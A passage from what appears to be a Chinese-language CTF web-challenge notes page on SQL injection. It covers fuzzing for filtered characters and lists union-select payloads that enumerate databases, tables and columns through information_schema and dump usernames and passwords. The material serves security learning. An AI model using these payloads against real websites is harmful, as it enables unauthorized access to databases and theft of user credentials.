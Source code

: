      ![image-20221013193439637](/images/ctf-web03/image-20221013193439637.png)

  2. 加载字典和其他设置,线程数不要太高,否则容易报429错误
  3. 开始攻击,并根据响应包的长度来判断哪些字符或语句被过滤了.

<br>

## 常规有回显

```
1' or '1'='1 
```

`#`和`--`都能够起到注释作用,用来让后面的语句失效		

<br>		

### **union select**:

```
1' and '1'='2' union select version(),database(),user() #
//查询某个数据库中的所有表,这里的1或者其他任意字符起到占位作用,因为原查询结果有两列,如果原查询结果更多,这里也要添加更多占位字符:
1' and '1'='2' union select group_concat(TABLE_NAME),1 from information_schema.TABLES where table_schema='库名'# 
//查询某个库中某个表的所有列名:
1' and '1'='2' union select group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where table_schema='库名' and table_name='表名'#
//查询具体数据:
1' and '1'='2' union select user,password from users#
```

<br>

### information_schema被过滤时(有时候被or过滤误伤)
